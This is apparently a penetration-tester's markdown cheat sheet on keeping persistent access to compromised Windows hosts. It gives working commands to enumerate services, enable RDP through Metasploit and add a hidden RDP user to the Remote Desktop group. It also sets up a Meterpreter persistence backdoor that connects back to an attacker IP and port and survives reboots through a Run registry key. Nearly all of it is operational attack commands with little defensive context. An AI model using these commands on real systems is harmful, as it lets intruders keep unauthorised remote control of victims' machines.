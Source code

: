 ### Enable services for persistence

> In order to gain persistence, we may have to enable services so we can connect again (mainly windows)

Show running services on the host

```powershell
net start
wmic service where 'Caption like "<ServiceName>%" and started=true' get Caption
```

```bash
meterpreter> run service_manager -l
meterpreter> run post/windows/gather/enum_services
```

If RDP is disabled, we can enable it with metasploit

```bash
meterpreter> run post/windows/manage/enable_rdp
```

To *add* a new RDP user, do the following

```powershell
net user <username> <password> /add  # create new user
net localgroup "Remote Desktop Users" <username> /add  # add new user to RDP grp
```

### Backdoor with metasploit

> Requires a public IP/DNS-Name for better use (this backdoor is connect back from victim to attacker)

```bash
meterpreter> run persistence -A -X -i 5 -p <attkListeningPort> -r <attkIP>
```

What happens?
1. Creating payload
	- `msfvenom` or `Veil` or `BDF`
2. Uploading file
	- upload: `upload ./backdoor.exe c:\\path\\on\\target`
3. Executing backdoor
4. Adding entry to registry
	- `reg setval -k HKML\\software\\windows\\currentversion\\run -d "c:\path\on\target\backdoor.exe" -v backdoor_name_key`

Check on victim:

```bash
meterpreter> reg queryval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v <tempName> # see script output for the temp name
meterpreter> ls c:\\windows\\TEMP\\<tempFileName> # check if vbs has been written
```

-> Start handler in metasploit to accept connection
